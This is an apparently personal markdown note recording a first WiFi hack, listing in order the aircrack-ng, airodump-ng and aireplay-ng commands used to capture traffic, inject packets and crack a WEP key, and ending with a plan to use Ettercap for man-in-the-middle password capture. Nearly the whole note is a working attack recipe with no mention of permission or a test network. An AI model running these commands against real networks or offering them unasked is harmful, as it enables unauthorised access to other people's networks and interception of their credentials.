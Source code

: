 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmon-ng start wlan0
* airodump-ng "INTERFACE"
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find "INTERFACE"
* airodump-ng "INTERFACE"
* Find information in table
	
**New window 2**
* airodump-ng --bssid "BSSID" -c "Channel" -w wep_log "INTERFACE"

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* aireplay-ng -l 0 -a "BSSID" -h "client MAC" -e "name connection" "INTERFACE" --ignore-negative-one
* aireplay-ng -3 -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a 1(is één) -b "BSSID" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!

TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack
